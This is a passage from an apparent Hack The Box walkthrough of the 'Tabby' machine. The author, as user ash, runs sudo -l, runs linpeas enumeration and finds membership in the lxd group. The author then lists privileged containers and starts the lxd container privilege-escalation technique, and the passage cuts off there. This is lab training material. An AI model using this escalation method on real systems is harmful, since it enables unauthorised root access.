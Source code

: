 ash@tabby:~$ sudo -l
sudo -l
sudo: unable to open /run/sudo/ts/ash: Read-only file system
[sudo] password for ash: admin@it

Sorry, user ash may not run sudo on tabby.

ash@tabby:~$ bash linpeas.sh
```

The only interesting thing I see on a first look are the Linux Containers (LXC):

<p align="center">
  <img src="/images/walkthroughs/hackthebox/tabby/8_linpeas.png" width="650"/>
</p>

<p align="center">
  <img src="/images/walkthroughs/hackthebox/tabby/8_linpeas_2.png" width="650"/>
</p>

**Ash** is in the **lxd** group, so I will search for info, as a lesson learnt from this box, is the lxc container privesc, if our user is in the lxd/lxc group, we have chances for privesc in that way, with privileged containers:

```
ash@tabby:~$ lxc list security.privileged=true
lxc list security.privileged=true
+-------------+---------+----------------------+------+-----------+-----------+----------+
|    NAME     |  STATE  |         IPV4         | IPV6 |   TYPE    | SNAPSHOTS | LOCATION |
+-------------+---------+----------------------+------+-----------+-----------+----------+
| ignite      | RUNNING | 240.194.0.70 (eth0)  |      | CONTAINER | 0         | tabby    |
+-------------+---------+----------------------+------+-----------+-----------+----------+
| mycontainer | RUNNING | 240.194.0.149 (eth0) |      | CONTAINER | 0         | tabby    |
+-------------+---------+----------------------+------+-----------+-----------+----------+
```

Machine got reset ^^':

```
ash@tabby:~$ lxc list security.privileged=true
+------+-------+------+------+------+-----------+
| NAME | STATE | IPV4 | IPV6 | TYPE | SNAPSHOTS |
+------+-------+------+------+------+-----------+
```

Let's exploit that I'm on the lxd group, [source](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation):

- On my local machine:

```
# build a simple alpine image so we get it ready into the box
